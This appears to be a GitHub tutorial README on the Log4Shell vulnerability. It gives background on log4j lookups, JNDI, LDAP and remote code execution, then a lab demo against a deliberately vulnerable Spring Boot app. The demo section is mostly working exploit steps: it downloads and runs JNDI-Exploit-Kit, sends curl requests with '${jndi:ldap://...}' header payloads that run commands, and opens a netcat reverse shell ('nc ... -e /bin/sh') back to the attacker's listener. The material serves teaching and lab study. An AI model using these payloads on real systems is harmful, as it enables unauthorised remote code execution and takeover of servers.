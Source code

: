 # Log4shell

## Introduction

- Accessing the host server through log4j vulnerability and exploiting it with malicious code on the host server.

- Since this exploit is done through the log4j it was named commonly as Log4shell.

- Log4shell is similar to the *SQL injection* in which attacker enters sql string into the request parameters and making it execute  on the host server whereas in *log4shell* hacker enters his directory service url like ldap server making the host application connect to the attacker server using jndi lookup and gets the malicious code execute on the host server which is returned to host application in the form of stream object.
$~$

  ![Alt Text](log4shell.gif)

## Log4j Vulnerability

- Log4j is the widely used logging library for all java enterprise applications either referenced directly or indirectly in the applications.

- In 2013, Log4j has introduced a new feature which evaluates Expression language which is in format ${code/variable}.

- For example if we want to print the environment variable then syntax of the logger will be,
   ```log.info("java version is {}", ${java.version});```

- The above expression ${java.version} looks the system level environemnt variables which are set at server level and access the variable and put the value in the logger file.

- This is where the exploit is happening and attackers access the host server access without authorization.
  
## JNDI

- JNDI is *Java Naming & Directory Interface*.

- JNDI provides consistent use of naming and/or directory services as a Java API.

- Most commonly used directory protocols are,
  - LDAP
  - RMI
  - DNS
  - NIS

- Like all Java APIs that interface with host systems, JNDI is independent of the underlying implementation.
<br/>

  ![Alt Text](What-is-JNDI-in-Java.png)

## LDAP 

- LDAP (Light Weight Directory Access Protocol) is a software protocol for enabling anyone to locate data about organizations, individuals and other resources such as files and devices in a network -- whether on the public Internet or on a corporate Intranet.



  ![Alt Text](how-ldap-works.png)

- This is mostly used while authenticating a users when logging in to a applications since it is not a heavyweight protocol like http and takes less time and also reduces the costly DB hits.

- Also, it is very easy to manage users and their roles since constraints can be added at organization or group level which is easy to maintain and manage users when a new rule is introduced or old rule is depricated/removed.


## RCE

- RCE is Remote Code Execution which clearly explains of executing a malicious code on the remote server (host server) without even having access to the server.

  ![Alt Text](RCE.png)

- Attacker enters malicious code in the form of a request parameter fed to the website and then making the application run the code on the host server and perform whatever attacker wants to do on the host server without having authorized access.

## Demo:

#### Prerequisites:

- [x] *Download LDAP server*:
  ```wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar```
  ![Alt Text](download_ldap.png)
- [x] *Run LDAP server*:
  - Move to the jar location and run the server using below command.
    `java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "calc.exe" -L <your private ip>:1389`
  <br/>

  ![Alt Text](run_ldap.png)
  > *_NOTE:_*  Use **hostname -I | awk '{print $1}'** to ge the private IP.
 - [x] *Create a spring boot application using log4j2 dependence with version less than 2.15* 
   - Open any Java IDE (Eclipse or SpringToolSuite) 
<br/>
   
    ![create Spring boot app](http://g.recordit.co/UJqn2R3YVo.gif)
<br/>
     -  Replace pom.xml with below file & copy below LogController src/main/java a
      [pom](pom.xml)
      [LogController](LogController.java)
     - Add below lines in default file created under src/main/java --> *Application.java in main method. 
      `System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");'
      `System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");'
     - Install [kali-linux](https://www.kali.org/docs/introduction/download-official-kali-linux-images/) and execute below command to install docker for executing app in docker container.
    `sudo apt install docker.io` 
### Live Demo:
I will cover 3 scenarios where the malicious code will execute different outputs on the host system/server.
  1. Open ==calculator== on windows system by executing vulnerable java application on local system.
       - Run the spring boot application as below.
    	![run app](http://g.recordit.co/AW98phqr4i.gif) 
       - Use curl to send request to host server with malicious code.
    	`curl <your IP>:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/Y2FsYy5leGU=}'` 
    	<br/>
    	![check calc](http://g.recordit.co/I5a0PeQpkf.gif) 
  2. Creating a ==txt file== inside server after hosting application on docker container.
    	- Host the same application in docker using below commands.
    	`docker pull vamsi13krish/vulnerable-app:latest`
    	`docker run -d --name vulnerable-app -p 8080:8080 vamsi13krish/vulnerable-app`
    	` curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_unix/dG91Y2ggL3RtcC9wd25lZC50eHQK}'`
   	- Check the docker container for pwned.txt file in /tmp folder using below command
    	`docker exec -it <container ID> ls /tmp`
  	>*_NOTE_*: Use **docker ps** to get container ID 

  ![file creation gif](http://g.recordit.co/Bn8ImBR7wn.gif)
  3. Getting complete access to the host server using ==netcat== command that will be passed in malicious code on to host server using log4j vulnerability.
  	- Use below command to convert the required netcat command to base64 encoded string.
    	`echo "nc 172.26.9.117 9999 -e /bin/sh" | base64`
  	- Copy the base64 string and paste after exec_global/ in below command
   	 `${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}`
  	- Now open other terminal and run below command to listen to the port 9999.
    	`nc -nvlp 9999`
  	- Run below Curl command and check the listening terminal again
  	  `curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}'`  
  ![Boom](http://g.recordit.co/xrvaibjQcF.gif)
